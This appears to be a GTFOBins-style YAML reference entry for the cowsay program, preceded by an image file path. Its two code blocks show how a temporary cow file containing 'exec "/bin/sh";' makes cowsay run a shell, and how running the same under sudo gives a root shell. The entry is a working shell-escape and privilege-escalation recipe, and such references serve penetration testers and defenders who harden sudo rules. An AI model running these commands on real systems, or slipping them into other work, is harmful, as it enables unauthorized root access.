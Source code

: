 ```yaml
---
description: It allows to execute [`perl`](../perl) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowsay -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowsay -f $TF x
---
```

